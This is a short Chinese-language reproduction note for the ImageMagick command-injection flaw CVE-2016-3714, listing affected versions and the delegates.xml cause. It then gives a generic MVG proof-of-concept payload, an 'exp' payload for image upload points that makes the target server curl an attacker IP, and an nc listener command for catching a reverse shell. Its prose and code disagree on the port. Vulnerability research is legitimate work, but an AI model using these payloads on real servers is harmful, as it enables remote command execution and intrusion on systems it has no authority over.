 # CVE-2016-3714 ImageMagick 命令执行漏洞

### 一、漏洞简介

`/etc/ImageMagick/delegates.xml` 将`%s，%l`加入到command里造成了命令执行

### 二、漏洞影响

ImageMagick 6.5.7-8 2012-08-17(手工测试风险存在)

ImageMagick 6.7.7-10 2014-03-06(手工测试风险存在)

低版本至6.9.3-9 released 2016-04-30

### 三、复现过程

**poc**


```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"| command")'
pop graphic-context
```

图片上传点，抓包，附上exp代码：


```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"| curl 172.16.20.108:8888")'
pop graphic-context
```

ip：你要反弹的shell地址，2333端口号，服务器监听反弹shell。


```bash
nc -lvp ``8888
```

![](images/15890708493396.png)

